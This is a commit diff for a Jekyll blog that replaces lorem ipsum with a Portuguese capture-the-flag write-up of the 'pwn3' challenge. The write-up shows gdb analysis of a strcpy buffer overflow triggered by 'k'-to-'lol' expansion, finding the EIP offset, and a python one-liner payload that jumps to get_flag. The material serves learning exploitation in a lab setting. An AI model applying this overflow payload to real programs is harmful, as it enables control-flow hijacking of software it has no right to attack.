

Before and after one commit to ratf/ratf.github.io, a Jekyll site: the page built from _posts/2016-06-06-pwn0-hackaflag.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated 2016-06-06-pwn0-hackaflag.md

```diff
--- a/_posts/2016-06-06-pwn0-hackaflag.md
+++ b/_posts/2016-06-06-pwn0-hackaflag.md
@@ -5,18 +5,93 @@ categories:
   - Hackaflag aracaju
 published: true
 ---
-Lorem ipsum dolor sit amet, consectetur adipiscing elit. Morbi aliquet fermentum dolor at tincidunt. Fusce justo magna, egestas vitae velit et, porttitor scelerisque ipsum. Maecenas nulla nibh, fringilla eu sodales eget, varius quis quam. Praesent ultrices quam eget turpis condimentum mollis sit amet non neque. Morbi nisl ipsum, scelerisque varius euismod sit amet, tempus ut lacus. Aliquam tincidunt nec lorem sit amet laoreet. Pellentesque ornare pulvinar dolor ut imperdiet. Vivamus mi turpis, laoreet congue magna id, imperdiet venenatis mi. Fusce quis consectetur nisi. Aliquam ante turpis, pulvinar et ante vel, tempor laoreet augue. Phasellus rutrum facilisis volutpat. Donec egestas erat ac ligula faucibus pharetra. Curabitur iaculis eros sem, nec convallis metus vehicula eget.
+Link para pwn3:
+https://s3-us-west-1.amazonaws.com/contattafiles/ratf/dRi0rQk6fm53a8r/pwn3
 
-Suspendisse fermentum dignissim turpis, et bibendum augue posuere vitae. Cras luctus justo turpis, ac molestie nisi porta in. Maecenas purus urna, pharetra vitae metus eget, lacinia sollicitudin lorem. Curabitur et nibh quis augue porta ultricies. Integer vitae viverra nulla. Nullam lacinia vel dolor et facilisis. Praesent finibus ante eget sem efficitur, non dignissim nunc porta. Nulla fermentum pulvinar erat sed finibus.
+Ao se executar o pwn pela primeira vez e tentar fazer um overflow enviando um monte de A's para a pergunta "Qual seu nome?", percebi que ele limitava a quantidade de caracteres que eram impressos.
 
-Curabitur nec laoreet lorem, at ornare ligula. Proin non lacinia nibh. In tincidunt mauris odio, sit amet consequat felis pretium id. Duis libero dolor, accumsan vel sodales non, tincidunt et purus. Morbi ullamcorper turpis id tellus molestie pellentesque. Curabitur auctor, leo id accumsan tristique, elit orci aliquet turpis, nec placerat leo ante eu urna. Donec laoreet dui vel fringilla scelerisque. Aenean egestas imperdiet dui vitae mattis. Curabitur malesuada aliquam pulvinar. Aenean fringilla facilisis sapien a varius. Sed at ornare ante. Mauris eu velit id erat finibus facilisis non sed quam. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
+Uma proteção contra overflow? Agora o negócio tava mais complicado que os outros dois pwn.
 
-Pellentesque posuere tristique sollicitudin. Cras quis vulputate nunc, et pellentesque ipsum. Nunc auctor metus non ligula hendrerit suscipit. Mauris id euismod ex. Cras posuere sem id justo vulputate luctus. Donec quis odio pretium odio iaculis porttitor vitae porta tellus. Fusce consequat tempus odio ac laoreet. Aenean facilisis massa nec lorem suscipit, eu facilisis turpis pharetra.
+Mas por acaso, antes de analisar o pwn no gdb ou objdump, percebi que ele substituia qualquer "k" (apenas minusculo) por "lol" e com k's suficientes os lol estouravam o espaço reservado para eles e passariam por cima de tudo, causando um buffer overflow. (Acho que o conhecimento que isso passa é de que sempre se deve testar qualquer tipo de INPUT para verificar falhas em um programa)
 
-Integer enim nunc, facilisis efficitur dapibus id, viverra vitae risus. Sed non lacus a ex placerat sagittis. Pellentesque nec felis et diam fermentum auctor et vitae ex. Nunc at tortor nec erat auctor suscipit. Curabitur rhoncus nunc vel mauris commodo volutpat. In dapibus, massa a auctor luctus, ante purus tincidunt lectus, vitae accumsan ante sem ac lorem. Morbi sit amet nulla dictum, cursus sem ac, hendrerit nunc. Morbi malesuada rutrum nibh luctus consequat. Cras interdum, nisi vitae tincidunt vestibulum, neque neque ornare orci, nec pretium mauris mauris sit amet dolor. Pellentesque mollis magna et pharetra consequat. Cras lobortis auctor turpis ac rhoncus. Curabitur dignissim mauris sed tincidunt consequat. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia Curae; Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Integer volutpat sed purus molestie pellentesque.
+Abrindo o pwn no gdb e mandando um info functions, achei 4 funções
+que eram interessantes:
+{% highlight js %}
 
-Nullam laoreet, eros non congue mollis, felis elit rhoncus neque, facilisis sodales nisi felis in quam. Donec in elit auctor, sodales nibh nec, varius massa. Suspendisse blandit augue arcu, et luctus nisl condimentum eget. Donec id lorem non risus porttitor imperdiet. Vestibulum quis arcu quis lacus molestie efficitur vitae sed ligula. Etiam viverra rutrum eleifend. Donec sed sapien turpis. Quisque pellentesque sollicitudin dui, vitae tristique nulla malesuada vitae. Nullam justo ligula, pharetra mollis cursus ut, bibendum quis diam. Praesent purus justo, imperdiet vitae scelerisque cursus, facilisis nec magna. Curabitur vehicula dui at faucibus placerat. Vivamus consectetur rhoncus tincidunt. Aliquam aliquam vitae sem eu tincidunt. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia Curae;
+0x08048f13  get_flag
+0x08048f21  replace
+0x080491af  vuln
+0x0804932d  main
 
-Mauris varius pulvinar eleifend. Nunc lobortis euismod placerat. Nam pharetra nunc in sapien scelerisque tincidunt. Donec a tristique orci. Donec ac tempor massa. Curabitur orci sem, porttitor ac dapibus fringilla, vulputate ac dolor. Donec eleifend ipsum id elementum ullamcorper.
+{% endhighlight %}
+Coloquei breakpoints em todas (b replace, b vuln, b main, b get_flag) e coloquei o pwn pra rodar (run).
 
-Ut posuere elementum neque scelerisque interdum. Vivamus maximus nunc vel lectus maximus lacinia. Fusce hendrerit ipsum eget vestibulum tempor. Proin ultrices augue diam, sed eleifend augue blandit in. Vestibulum mollis, arcu ut dapibus bibendum, dolor velit facilisis lorem, et pellentesque purus leo ac quam. Vestibulum nec metus non libero placerat blandit sit amet non ligula. Sed laoreet, dolor et gravida fringilla, turpis felis egestas massa, non malesuada mi eros in dolor. Nam laoreet hendrerit nisl, id suscipit dolor luctus at. Aliquam erat volutpat. Sed vel varius libero, ac aliquet lacus. Cras quis dui sit amet ex gravida fringilla eu pulvinar libero. Integer orci mauris, iaculis porttitor justo at, mattis hendrerit magna. Phasellus pulvinar urna odio, in ultricies elit mollis non.
+Primeiro breakpoint para em main, função principal do programa (pouca novidade aqui). Uso o comando disas main e tento analisar o código (tô longe de saber muito de asm), entendi que main, basicamente só serve pra chamar a função vuln.
+
+{% highlight js %}
+   0x08049333 <+6>:     call   0x80491af <vuln>
+{% endhighlight %}
+
+Com o comando c, mando pwn continuar. E, como imaginei, ele para em vuln. Tento analisar o código da função usando disas vuln, mas a coisa fica um pouco complicada por causa do meu pouco conhecimento de asm.
+Mesmo assim, compreendo algumas linhas e conclui que vuln era responsável por imprimir a mensagem perguntando do nome, copiar o que a função replace retornar, para o buffer vulnerável usando a perigosa função strcpy, e então imprimir na tela o resultado.
+Só lembrando que isso tudo eram suposições (boa parte baseadas nas chamadas para funções que vi no código, tipo printf, fgets, call para replace, strcpy...)., já que meu conhecimento em asm (AINDA) não é suficiente.
+
+Como o código de vuln já mostrava, quando mandei o GDB continuar, surgiu a mensagem pedindo para digitar o nome. Depois de digitar qualquer coisa e teclar enter, o breakpoint em replace faz efeito.
+
+Analisar a função replace foi mais complicado. A conclusão que tirei, por achismo, é que ela fica responsável por varrer a string em busca de K's e, caso encontre, substitua por lol. E provavelmente retorne a string modificada.
+
+Instruindo o gdb a continuar, vi que o programa finaliza exibindo a mensagem só isso.
+
+Então executei o programa novamente no gdb (usando o comando run), mas dessa vez meti um monte de k's no lugar do meu nome. Aí, depois de mandar o pwn continuar após o breakpoint em replace, o gdb me mostra:
+{% highlight js %}
+
+Program received signal SIGSEGV, Segmentation fault.
+0x6f6c6c6f  in ?? ()
+
+{% endhighlight %}
+6f6c6c6f = ollo em hex, o que significa que temos meios lol's em eip, o que significa que podemos sobreescreve-lo com coisa mais útil. Tipo o endereço de get_flag.
+
+Eu aposto que deve haver um jeito mais prático, mas no calor do ctf, fui manualmente testando quantos k's eram necessários para chegar em EIP. De k em k, descobri que 22 k's corrompem eip com um ol, meio lol. Então usei 21 k's mais um caractere qualquer (usei o l no dia) e 4 A's.
+{% highlight js %}
+
+Oi, lollollollollollollollollollollollollollollollollollollollollollAAAA
+
+
+Program received signal SIGSEGV, Segmentation fault.
+0x41414141 in ?? ()
+{% endhighlight %}
+
+Achei onde pôr o endereço de get_flag ;D
+
+Para testar a solução, usei o python para criar um arquivo que serviria de entrada para pwn:
+{% highlight js %}
+python -c 'print "k"*21 + "l" + "\x13\x8f\x04\x08"' > input
+{% endhighlight %}
+
+Obs: eu já tinha anotado o endereço de get_flag (0x08048f13) depois de analisar as funções no gdb, imaginei que seria útil. E, como sabemos que a regra usada nesse caso para manipulação de armazenamento na memória é Little Endian, invertemos o endereço: 08 04 8f 13 vira 13 8f 04 08.
+
+Para ver se tudo funcionava, no gdb com pwn3, coloquei um breakpoint apenas em get_flag. Então rodei o programa e redirecionei a entrada para o arquivo input, assim, ele iria ler o conteúdo do arquivo e usar como resposta para a pergunta "Qual seu nome?".
+{% highlight js %}
+
+(gdb) run < input
+Starting program: /home/update/pwn3 < input
+Qual seu nome? Oi, lollollollollollollollollollollollollollollollollollollollolloll▒
+
+
+Breakpoint 1, 0x08048f13 in get_flag ()
+{% endhighlight %}
+
+Missão cumprida. EIP apontava para get_flag.
+{% highlight js %}
+
+(gdb) c
+Continuando.
+cat: flag.txt: Arquivo ou diretório não encontrado
+
+Program received signal SIGSEGV, Segmentation fault.
+0x08048f1f in get_flag ()
+{% endhighlight %}
+
+Agora bastava explorar o pwn que estava rodando em algum ip dentro da rede do hack a flag e ver o contéudo do arquivo flag.txt ;)
+
+EOF
```
